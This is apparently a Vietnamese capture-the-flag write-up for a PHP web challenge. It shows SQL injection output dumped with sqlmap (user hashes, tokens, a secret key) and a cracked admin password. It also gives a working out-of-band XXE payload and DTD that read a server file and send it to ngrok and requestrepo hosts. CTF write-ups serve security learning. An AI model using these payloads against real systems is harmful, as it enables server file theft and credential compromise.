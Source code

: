 # Solution

sqli ở `/data.php?u=` dùng sqlmap ta dump được các thông tin sau

```
Database: typodb
[3 tables]
+------------------------------------------------------+
| secretkeys                                           |
| tokens                                               |
| users  


Table: tokens
[2 entries]
+-----+----------------------------------+
| uid | token                            |
+-----+----------------------------------+
| 3   | 2f6ece875e1917a7cbe088ba6809a2a1 |
| 1   | a51149a51a42a14e9682a9a8a514caf6 |
+-----+----------------------------------+


Table: users
[3 entries]
+----+-------------------------+----------------------------------+-------------+
| id | email                   | password                         | username    |
+----+-------------------------+----------------------------------+-------------+
| 1  | admin@admin.com         | 924d06a2411d0d142b5d543896eb228e | admin       |
| 2  | test@test.com           | 098f6bcd4621d373cade4e832627b4f6 | test        |
| 3  | CTFCreators@twitter.com | d6ab9e3e0af68d85bef320ebd22bcb05 | CTFCreators |
+----+-------------------------+----------------------------------+-------------+


Table: secretkeys
[1 entry]
+--------------------------------------+
| uuidkey                              |
+--------------------------------------+
| 8d6ed261-f84f-4eda-b2d2-16332bd8c390 |
+--------------------------------------+
```

crack password của admin -> `thaii`

XXE exiftrate content của `/var/www/flag` với UUID trong table `secretkeys`


gửi POST request tới `/read.php`

```
data=<!DOCTYPE foo [<!ENTITY %25 xxe SYSTEM
"http://382d-2402-800-63b7-e478-414b-1fe3-36ae-91c.ngrok.io/exp.dtd"> %25xxe;]>
```

ở server ta tạo một file `exp.dtd` với nội dung:

```xml
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///var/www/html/read.php">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://b9kli0dp.requestrepo.com/?x=%file;'>">
%eval;
%exfiltrate;
```


Lưu ý ở đây nếu k sử dụng php wrapper thì sẽ không bypass được access control.
